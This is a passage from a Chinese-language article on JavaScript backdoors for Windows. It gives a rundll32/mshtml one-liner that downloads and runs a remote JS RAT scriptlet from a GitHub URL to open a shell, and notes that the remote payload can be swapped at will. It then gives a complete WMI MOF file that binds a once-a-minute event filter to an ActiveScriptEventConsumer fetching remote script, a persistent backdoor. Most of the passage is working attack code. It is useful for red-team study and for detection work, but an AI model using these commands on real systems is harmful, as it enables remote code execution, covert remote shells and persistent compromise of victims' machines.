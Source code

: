 为区别演示，已上传至另一文件testJSRAT：  
[https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT](https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT)

cmd下执行：

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/testJSRAT")

```

执行后弹回JSRAT的shell

3、分析
----

这种方式有如下优点：  
**a.**再次简化了JSRAT的启动代码，只需要执行GetObject()  
**b.**由于是远程执行wsc文件，所以payload随时可以更改，代码可以随时升级

0x03 WMI Backdoor
=====

通过WMI不仅可以定时执行程序，还能定时执行脚本  
定时执行程序的方法之前介绍过，此处跳过，下面介绍一下定时执行脚本的方法

WMI支持vbs和js脚本，这里只介绍启动js脚本的方法

1、mof
-----

注意转义字符  
"用\"表示  
内容如下：

```
pragma namespace("\\\\.\\root\\subscription")    

instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};    

instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    

instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};

```
